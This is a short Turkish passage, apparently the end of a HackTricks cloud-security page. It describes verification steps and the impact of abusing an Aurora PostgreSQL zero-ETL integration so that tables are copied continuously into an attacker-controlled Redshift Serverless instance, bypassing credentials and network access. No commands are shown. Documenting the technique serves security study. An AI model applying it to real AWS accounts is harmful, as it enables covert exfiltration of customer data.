- SVV_INTEGRATION, DB oluşturulmasından önce integration_id 377a462b-c42c-4f08-937b-77fe75d98211 ve durum PendingDbConnectState gösterdi.
- CREATE DATABASE FROM INTEGRATION işleminden sonra tabloları listelemek ztl şemasını ve customers tablosunu ortaya çıkardı; ztl.customers'tan yapılan seçim 2 satır döndürdü (Alice, Bob).

Etkisi: Seçili Aurora PostgreSQL tablolarının saldırgan tarafından kontrol edilen Redshift Serverless'e sürekli ve neredeyse gerçek zamanlı olarak sızdırılması; bu süreçte veritabanı kimlik bilgileri, yedekler veya kaynak kümesine ağ erişimi kullanılmıyor.

{{#include ../../../banners/hacktricks-training.md}}
